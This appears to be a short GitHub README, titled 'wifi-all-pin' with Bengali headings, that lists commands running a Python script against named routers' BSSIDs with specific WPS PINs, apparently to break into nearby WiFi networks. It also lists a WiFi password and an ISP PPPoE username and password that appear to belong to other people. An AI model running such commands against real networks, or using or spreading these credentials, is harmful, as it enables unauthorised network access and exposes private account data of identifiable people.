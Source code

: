 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```

``` ayhan password:- Anas2520


#saim:-Router PPoe

```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ```
